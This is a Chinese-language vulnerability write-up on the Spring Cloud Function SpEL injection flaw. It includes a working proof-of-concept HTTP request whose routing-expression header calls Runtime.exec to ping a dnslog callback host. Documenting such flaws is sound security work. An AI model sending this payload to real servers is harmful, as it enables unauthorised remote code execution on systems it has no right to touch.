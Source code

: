 # Spring Cloud Function SPEL 远程命令执行漏洞

## 漏洞描述

Spring Cloud Function 是基于 Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于 Spring Cloud Function 中 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成了 Spel 表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

```
Spring Cloud Function
```

## 环境搭建

- https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo

## 漏洞复现

搭建后访问

![image-20220519160206177](images/202205191602220.png)

发送 POC

```
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

接收到请求

![image-20220519160240168](images/202205191602216.png)
